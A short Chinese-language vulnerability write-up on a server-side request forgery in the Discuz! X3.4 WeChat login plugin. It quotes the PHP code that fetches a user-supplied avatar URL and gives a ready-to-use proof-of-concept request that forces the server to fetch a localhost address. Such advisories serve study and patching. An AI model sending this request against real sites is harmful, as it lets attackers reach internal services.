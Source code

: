 Discuz! X3.4 Weixin Plugin ssrf
===============================

一、漏洞简介
------------

二、漏洞影响
------------

Discuz! X3.4

三、复现过程
------------

`source/plugin/wechat/wechat.class.php` `WeChat`类`syncAvatar`方法：

        static public function syncAvatar($uid, $avatar) {

            if(!$uid || !$avatar) {
                return false;
            }

            if(!$content = dfsockopen($avatar)) {
                return false;
            }

            $tmpFile = DISCUZ_ROOT.'./data/avatar/'.TIMESTAMP.random(6);
            file_put_contents($tmpFile, $content);

            if(!is_file($tmpFile)) {
                return false;
            }

            $result = uploadUcAvatar::upload($uid, $tmpFile);
            unlink($tmpFile);

            C::t('common_member')->update($uid, array('avatarstatus'=>'1'));

            return $result;
        }

`source/plugin/wechat/wechat.inc.php`
中调用了`WeChat::syncAvatar`，直接用`$_GET['avatar']`作为参数传进去：

    ......

    elseif(($ac == 'register' && submitcheck('submit') || $ac == 'wxregister') && $_G['wechat']['setting']['wechat_allowregister']) {

            ......

            $uid = WeChat::register($_GET['username'], $ac == 'wxregister');

            if($uid && $_GET['avatar']) {
                WeChat::syncAvatar($uid, $_GET['avatar']);
            }

    }

不过因为这里用到了微信登录的插件，所以要利用的话需要目标站开启微信登录：

![](./.resource/Discuz!X3.4WeixinPluginssrf/media/rId24.png)

这里 SSRF 的构造很简单，直接在`avatar`参数构造 url
即可（只是注意`wxopenid`参数每次请求都要足够随机保证没有重复，如果重复的话代码是无法走到发起请求的逻辑的）：

### poc

    http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http://localhost:9090/dz-weixin-plugin-ssrf&wxopenid=dont_be_evil

![](./.resource/Discuz!X3.4WeixinPluginssrf/media/rId26.png)
